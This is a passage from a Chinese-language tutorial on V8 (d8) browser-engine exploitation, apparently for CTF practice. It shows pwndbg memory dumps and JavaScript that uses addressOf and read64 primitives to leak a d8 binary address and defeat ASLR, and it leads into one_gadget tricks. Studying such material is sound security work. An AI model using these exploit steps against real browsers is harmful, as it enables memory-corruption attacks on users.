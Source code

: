用telescope查看code内存地址处的内容：

```assembly
pwndbg> telescope 0x279fa3dc6980 0x20
00:0000│   0x279fa3dc6980 —▸ 0x13d0f3180a31 ◂— 0x13d0f31801
01:0008│   0x279fa3dc6988 —▸ 0x13d0f3182c01 ◂— 0x13d0f31807
02:0010│   0x279fa3dc6990 —▸ 0x13d0f3180c71 ◂— 0x13d0f31808
03:0018│   0x279fa3dc6998 —▸ 0x13d0f3182791 ◂— 0x13d0f31807
04:0020│   0x279fa3dc69a0 —▸ 0x2fd1d34916a9 ◂— 0xd1000013d0f31814
05:0028│   0x279fa3dc69a8 ◂— or     eax, 0xc6000000 /* '\r' */
06:0030│   0x279fa3dc69b0 ◂— sbb    al, 0
07:0038│   0x279fa3dc69b8 ◂— and    al, 0 /* '$' */
08:0040│   0x279fa3dc69c0 ◂— movabs r10, 0x564388fbdaa0 <-- 这里存储了d8中的指令地址
09:0048│   0x279fa3dc69c8 ◂— add    byte ptr [rax], al
0a:0050│   0x279fa3dc69d0 ◂— add    byte ptr [rax], al
... ↓
```

可以发现在code偏移的0x40处出现了d8二进制内存空间的指令地址，vmmap确认一下：

```assembly
pwndbg> vmmap 0x564388fbdaa0
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x564388689000     0x56438923f000 r-xp   bb6000 67b000 browser/x64.release/d8
pwndbg> telescope 0x564388fbdaa0
00:0000│   0x564388fbdaa0 (Builtins_ArrayConstructor) ◂— cmp    qword ptr [r13 - 0x28], rdx
01:0008│   0x564388fbdaa8 (Builtins_ArrayConstructor+8) ◂— retf   0x3eb
02:0010│   0x564388fbdab0 (Builtins_ArrayConstructor+16) ◂— pop    rbp
03:0018│   0x564388fbdab8 (Builtins_ArrayConstructor+24) ◂— add    byte ptr [rax], al
```

可以发现，这个指令确实是d8二进制中指令地址，主要用于内置数组的构造。

也就是说，v8在生成一个数组对象过程中，会对应着生成一个code对象，这个code对象中存储了和该数组对象相关的构造函数指令，而这些构造函数指令又会去调用d8二进制中的指令地址来完成对数组对象的构造。

因此，我们可以利用上述地址偏移，结合地址泄露addressOf和任意地址读取read64，稳定地得到一个v8中的二进制指令地址。具体的JavaScript实现思路如下所示：

```assembly
var a = [1.1, 2.2, 3.3];
%DebugPrint(a);
var code_addr = read64(addressOf(a.constructor) + 0x30n);
var leak_d8_addr = read64(code_addr + 0x41n);
console.log("[*] find libc leak_d8_addr: 0x" + hex(leak_d8_addr));
%SystemBreak();
```

调试结果显示，我们已经成功获取到了d8内部的指令地址：

```assembly
pwndbg> r
0x0e11365d0631 <JSArray[3]>
[*] find libc leak_d8_addr: 0x0000558c1a2f5aa0
```

之后就和之前随机泄露的利用过程一样了，这里不再赘述。

### 3. one_gadget的技巧
